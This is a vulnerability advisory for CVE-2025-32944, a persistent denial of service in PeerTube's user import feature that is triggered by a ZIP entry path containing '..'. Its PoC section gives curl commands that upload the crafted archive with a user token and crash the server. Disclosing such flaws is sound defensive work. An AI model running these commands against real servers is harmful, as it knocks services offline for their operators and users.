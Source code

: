 ```yaml
---
description: CVE-2025-32944 Medium severity. PeerTube User Import Authenticated Persistent Denial of Service
title: PeerTube User Import Authenticated Persistent Denial of Service
date_published: "2025-04-14"
last_updated: "2025-04-14"
xray_id:
vul_id: CVE-2025-32944
cvss: 6.5
severity: medium
discovered_by: Ori Hollander
type: vulnerability
---
```

## Summary
An Uncaught Exception in PeerTube can lead to a persistent Denial of Service in User Import.

This vulnerability allows any authenticated user to cause the server to stop functioning in a persistent manner.



## Component

[PeerTube](https://github.com/Chocobozzz/PeerTube)



## Affected versions

(, 7.1.1)



## Description

If user import is enabled (which is the default setting), any registered user can upload an archive for importing. The code uses the yauzl library for reading the archive.
If the yauzl library encounters a filename that is considered illegal, [it raises an exception](https://github.com/thejoshwolfe/yauzl/blob/de292f220268473eb20aef64b0a77faa9d004d9a/index.js#L737). For example, if a filename includes “..” in one of its parts, an “invalid relative path” error is raised. PeerTube does not catch this exception, thus it crashes. Even after starting the server again, it tries to read the file and crashes again, causing a permanent denial of service until the file is deleted from the system.

## PoC

This PoC assumes that there is a PeerTube instance on the machine listening on ports 3000 (client) and 9000 (server). Note that running this PoC will cause PeerTube’s server to shut down.



1. First, using a browser, log in to the PeerTube instance with any user’s credentials, and use the inspection screen to copy the authorization token of the user.
1. Create a file `evil.zip` in the current directory, which contains at least one zip entry with a `..` in its path
1. In a terminal, run the following commands (replace “user_token” with the token obtained from step #1):
```
new_location=http:$(curl -s -D - 'http://127.0.0.1:3000/api/v1/users/1/imports/import-resumable' -H 'Authorization: Bearer user_token' -H 'Content-Type: application/json; charset=UTF-8' -H 'X-Upload-Content-Length: 168' -H 'X-Upload-Content-Type: application/x-zip-compressed' --data-raw '{"name":"evil.zip","mimeType":"application/x-zip-compressed","size":168,"lastModified":1743493990068,"filename":"evil.zip"}' | awk '/^location:/{print $2}' | tr -d '\r')
curl -X PUT "$new_location" -H "Content-Type: application/octet-stream" -H "Content-Range: bytes 0-167/168" -H 'Authorization: user_token' --data-binary @evil.zip
```
If everything was done correctly, the PeerTube server will crash, and will keep crashing as long as the ZIP file is not deleted from the system.



## Vulnerability Mitigations

No mitigations are supplied for this issue



## References

[Fix release](https://github.com/Chocobozzz/PeerTube/releases/tag/v7.1.1)

[PoC Materials](https://drive.google.com/file/d/1zmXFNutT4ACOJZGmxhU22nhu9Fbn4ui2/view?usp=drive_link)
